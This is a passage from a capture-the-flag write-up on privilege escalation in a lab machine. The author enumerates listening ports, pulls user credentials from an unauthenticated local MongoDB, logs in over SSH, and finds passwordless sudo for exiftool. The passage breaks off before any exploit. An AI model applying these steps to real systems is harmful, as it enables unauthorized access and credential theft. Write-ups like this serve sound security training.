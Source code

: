 ### Priv Esc

Now I have a shell as www-data I want to escalate my privileges. I enumerated the machine and noticed Mongodb was listening on TCP port 27017.

```highlight
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer                  
tcp        0      0 127.0.0.1:27017         0.0.0.0:*               LISTEN      off (0.00/0/0)         
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)              
tcp6       0      0 :::80                   :::*                    LISTEN      off (0.00/0/0)         
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)               
```

I connected to the mongodb service and was able to find the credentials for the user 'stux'.

```highlight
$ mongo 127.0.0.1:27017
MongoDB shell version: 2.6.10
connecting to: 127.0.0.1:27017/test
show dbs
admin         (empty)
local         0.078GB
sudousersbak  0.078GB
use sudousersbak
show collections
switched to db sudousersbak
flag
system.indexes
user
db.user.find()
{ "_id" : ObjectId("60a89d0caadffb0ea68915f9"), "name" : "<REDACTED>" }
{ "_id" : ObjectId("60a89dfbaadffb0ea68915fa"), "name" : "stux" }
```

I used the credentials to SSH to the machine and ran the command 'sudo -l'.

```highlight
└──╼ $ssh stux@cmspit.thm
stux@cmspit.thm's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat May 22 19:41:38 2021 from 192.168.85.1
stux@ubuntu:~$ sudo -l
Matching Defaults entries for stux on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User stux may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/local/bin/exiftool
stux@ubuntu:~$ 
```
